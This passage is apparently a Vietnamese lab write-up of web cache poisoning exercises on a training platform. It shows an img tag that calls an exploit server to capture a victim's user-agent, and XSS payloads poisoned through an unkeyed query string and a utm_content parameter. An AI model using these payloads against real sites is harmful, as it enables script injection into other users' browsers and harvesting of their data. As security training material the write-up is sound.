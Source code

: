 Ta cần tìm kiếm để biết được user-agent của victim trước khi poisoning cache.

Comment một thẻ html để khi victim truy cập ta sẽ lấy được user-agent của họ:

```htmlembedded!
<img src="https://exploit-0a91001903d9f734c01d3568012b006b.exploit-server.net/foo" >
```

Kết quả:

>![](https://i.imgur.com/YeZW20Y.png)

Thay user-agent trong request poisoning, ta attack thành công.

>![](https://i.imgur.com/ybiV6UF.png)


<hr>

### Bài 5: Web cache poisoning via an unkeyed query string

>![](https://i.imgur.com/Qi31Dq1.png)

Dùng `Pragma: x-get-cache-key` trong request gửi đi, ta thấy, Cache key chỉ gồm đường dẫn

>![](https://i.imgur.com/VEJDTjj.png)

Thử thêm tham số vào đường dẫn, ta thấy nó được reflect trong phản hồi.

>![](https://i.imgur.com/ezIyD2D.png)

Đoán rằng tham số này không nằm trong cache key,

Poison với payload sau để XSS

Payload:

```
abc='/><script>alert(1)</script>
```

Kết quả:

>![](https://i.imgur.com/bPuxOM4.png)


<hr>

### Bài 6: Web cache poisoning via an unkeyed query parameter

>![](https://i.imgur.com/2th6cp7.png)

Bài này ta cũng phát hiện lỗ hổng XSS ở query string như bài trên, tuy nhiên chỉ khai thác được ở phía ta, nghĩa là không đầu độc bộ đệm được, server từ chối cache các tham số rác.

Ta cần tìm các tham số có sẵn để đầu độc thay vì tạo ra các tham số ngẫu nhiên.

Tìm hiểu ta thấy có thể tận dụng các UTM parameters để đầu độc trang web (trang web sử dụng UTM params cho mục đích marketing)

```
?utm_content='/><script>alert(1)</script>
```
